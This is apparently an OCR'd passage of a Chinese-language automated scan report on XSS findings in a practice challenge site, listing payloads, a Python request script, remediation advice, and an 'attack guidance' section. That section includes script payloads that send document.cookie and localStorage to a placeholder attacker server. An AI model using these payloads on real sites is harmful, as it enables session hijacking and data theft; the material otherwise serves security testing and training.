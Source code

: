    ```python
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制
